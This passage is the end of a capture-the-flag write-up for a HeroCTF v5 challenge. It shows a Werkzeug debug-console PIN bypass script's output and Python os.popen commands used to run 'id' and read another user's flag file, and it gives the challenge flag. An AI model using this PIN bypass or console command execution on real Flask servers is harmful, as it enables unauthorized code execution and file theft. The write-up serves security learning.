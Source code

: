 ```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/System/Drink-from-my-Flask#2)-[2023.05.14|20:51:07(HKT)]
└> python3 werkzeug-pin-bypass.py
Pin: 103-934-238
```

Fingers crossed!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230514205727.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230514205736.png)

Let's go!!!

**We can now read user `flaskdev`'s flag!**
```python
import os
os.popen('id').read()
os.popen('cat /home/flaskdev/flag.txt').read()
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HeroCTF-v5/images/Pasted%20image%2020230514205832.png)

- **Flag: `Hero{n0t_s0_Urandom_4ft3r_4ll}`**

## Conclusion

What we've learned:

1. Werkzeug Debug Console PIN Code Bypass With Extra Hardening
2. Horizontal Privilege Escalation Via Werkzeug Debug Console